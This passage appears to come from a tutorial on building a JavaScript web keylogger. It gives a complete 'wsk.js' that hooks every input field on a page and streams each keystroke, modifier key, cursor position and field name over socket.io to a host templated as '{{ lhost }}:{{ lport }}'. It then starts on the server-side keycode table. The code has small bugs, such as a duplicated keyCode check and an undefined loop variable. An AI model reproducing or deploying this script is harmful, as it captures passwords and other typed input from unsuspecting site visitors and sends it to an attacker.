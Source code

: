 Fortunately, it's actually relatively simple to account for all of these cases. Each keypress event has both 'selectionStart' and 'selectionEnd' attributes that corresponds to the start and end indexes of the text the user has selected. If the user has no text selected, then the 'selectionStart' and 'selectionEnd' attributes are both set to the position of the cursor. 


The complete wsk.js file should look like this:

{% highlight javascript %}

	function logKeystroke(event) {
	    
		var c = event.keyCode || event.keyCode;
	        
		socket.emit('keydown', {
			'ks' : c,
			'start_pos' : this.selectionStart,
			'end_pos' : this.selectionEnd,
			'shift' : event.shiftKey,
			'alt' : event.altKey,
			'ctrl' : event.ctrlKey,
			'name' : this.getAttribute('name'),
			'type' : this.getAttribute('type'),
			'id' : this.getAttribute('id'),
			'class' : this.getAttribute('class'),
		});
	}

	window.onload = function() {

		all_inputs = document.getElementsByTagName('input');

		for (var i = 0, length = all_inputs.length; i < length; i++) {
	
			element.addEventListener("keydown", logKeystroke);
		}

		namespace = '/keylogger';
{% raw %} 
		socket = io.connect('http://' + '{{ lhost }}' + ':' + '{{ lport }}' + namespace);
{% endraw %}

    	// event handler for new connections
    	socket.on('connect', function() {
    	    socket.emit({ data : 'new connection initiated'});
    	});
	}


{% endhighlight %}

#Keycode lookup table

With our frontend out of the way, it's time to start thinking about how to put together our serverside code. Our first task on the backend is to create a system that efficiently translates numerical keycodes and shift combinations into readable characters. To do this, we use a lookup table system that we will implement in the following file:

	keylogger/tables.py
